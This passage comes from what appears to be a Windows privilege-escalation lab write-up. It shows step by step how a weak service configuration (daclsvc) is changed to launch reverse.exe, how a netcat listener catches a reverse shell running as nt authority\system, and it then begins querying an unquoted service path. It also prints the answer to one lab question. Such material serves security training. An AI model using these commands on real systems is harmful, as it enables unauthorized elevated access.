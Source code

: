 We can see that this runs with `SYSTEM` privileges. We'll change the `BINARY_PATH_NAME` for `daclsvc` to our `reverse.exe`:

```console
C:\Users\user> sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS
```

Once this is done, we can start a listener on our machine and then fire up the process using: `net start daclsvc`

***NOTE***: If you just try and execute the command in the current reverse shell, it will not work since the port is already occupied, so use the remmina instance to execute the command after restarting the listener.

On the target machine (remmina):
```console
C:\Users\user>net start daclsvc
The service is not responding to the control function.

More help is available by typing NET HELPMSG 2186.
```


On our machine:
```console
$ nc -nvlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from MACHINE_IP.
Ncat: Connection from MACHINE_IP:49778.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami 
 whoami
nt authority\system
```

We now have a reverse shell with elevated privileges!


The answer to the question for this task can be seen in the original output of the `sc qc daclsvc` command:

> What is the original BINARY_PATH_NAME of the daclsvc service?\
> > `C:\Program Files\DACL Service\daclservice.exe`

### Service Exploit - Unquoted Service Paths

Let's once again return to our normal user's privilege and try to exploit unquoted service paths.

There's a service by the name of `unquotedsvc` that we'll be querying for some info:

```console
C:\Users\user> sc qc unquotedsvc    
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
